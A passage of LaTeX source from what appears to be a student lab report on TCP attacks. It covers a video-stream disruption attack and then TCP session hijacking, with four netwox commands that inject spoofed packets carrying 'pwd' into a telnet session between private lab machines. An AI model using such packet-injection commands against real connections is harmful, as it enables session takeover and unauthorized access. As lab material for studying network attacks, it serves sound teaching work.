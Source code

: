 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Description}
The video starts to play on the virtual machine with the IP Address \emph{192.168.121.130}. After the video starts playing, the attacker machine with the IP Address \emph{192.168.121.129} runs the above netwox command. The video on \emph{192.168.121.130} stops playing.
\pagebreak

\section{Task 4}
\subsection{TCP Session Hijacking}
TCP Session Hijacking is an attack that involves intercepting a TCP session between 2 machines in order to hjiack it. Since in most TCP Sessions, the authentication is done only in the beginning, when a TCP Session is hijacked, the attacker will be able to gain the same access as the original user who logged in.

\subsection{Injecting pwd command using netwox tool}
The following commands were used to hijack the session and send the pwd command over. \\

\begin{lstlisting}
netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.121.129 --ip4-dst 192.168.121.130 --tcp-src 53022 --tcp-dst 23 --tcp-seqnum 1737301455 --tcp-window 6912 --tcp-data "70"
netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.121.129 --ip4-dst 192.168.121.130 --tcp-src 53022 --tcp-dst 23 --tcp-seqnum 1737301456 --tcp-acknum 4197381889 --tcp-ack --tcp-window 6912 --tcp-data "77"
netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.121.129 --ip4-dst 192.168.121.130 --tcp-src 53022 --tcp-dst 23 --tcp-seqnum 1737301457 --tcp-acknum 4197381890 --tcp-ack --tcp-window 6912 --tcp-data "64"
netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.121.129 --ip4-dst 192.168.121.130 --tcp-src 53022 --tcp-dst 23 --tcp-seqnum 1737301458 --tcp-acknum 4197381891 --tcp-ack --tcp-window 6912 --tcp-data "0d00"
\end{lstlisting}
\pagebreak
\end{document}
